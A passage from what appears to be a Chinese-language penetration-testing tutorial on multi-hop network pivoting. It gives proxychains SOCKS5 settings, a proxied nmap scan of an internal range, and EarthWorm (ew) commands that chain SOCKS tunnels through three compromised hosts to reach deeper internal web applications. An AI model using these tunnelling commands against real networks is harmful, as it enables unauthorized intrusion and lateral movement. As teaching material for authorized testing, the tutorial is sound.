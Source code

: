代理通道架设完毕，访问A1的1080相当于访问V2的9999端口，在攻击机A1上使用proxychain将流量代理到本地1080端口，相当于把流量代理到目标机V2上了，在A1上发起请求相当于在V2上发起请求。
A1上proxychains代理配置：

```bash
[ProxyList]
socks5    127.0.0.1    1080
```

接着就可以使用相关工具做进一步渗透，此处先在A1上使用nmap扫描端口：

```bash
proxychains nmap -p xxx -sT -Pn -open 10.10.2.111/16

```

扫描结果发现能抵达10.3网段的一台内网机器V3-10.10.3.111，开放端口为8080。

**根据之前在V1上的扫描结果，10.1段无法抵达10.3段，但是通过V2做跳板，可以访问到更深一层的内网机器和应用。**

对A1浏览器进行代理设置，代理到本地1080端口，即把流量代理到了V2，从而可以访问V3上的内网web应用。

尝试在浏览器上访问[http://10.10.3.111](http://10.10.3.111):8080，发现是某运维管理系统，接下来便可以进一步web渗透，略。

### 场景三：假设已获得V3的shell，现将流量代理到V3。（三级级联）

**正向代理：**

假设目标机V1有公网IP（139.x.x.x），可以使用正向的方式代理流量。

在V1上启动流量转发，将V1的1080端口与V2的9999端口绑定，建立socks5通道：

```bash
./ew -s lcx_tran -l 1080 -f 10.10.2.111 -g 9999

```

在V2上启动流量转发，将V2的9999 端口与V3的8888端口绑定，建立socks5通道：

```bash
./ew -s lcx_tran -l 9999 -f 10.10.3.111 -g 8888

```

在目标机V3上启动socks5代理并监听8888端口：

```bash
./ew -s ssocksd -l 8888

```

**方式不止一种：通过场景二中反向代理的方式，从V1→V3架设也能实现。**

接着流量代理到139.x.x.x的1080端口，就相当于把流量代理到目标机V3上了。

A1上proxychains代理配置：

```bash
[ProxyList]
socks5    139.x.x.x    1080

```
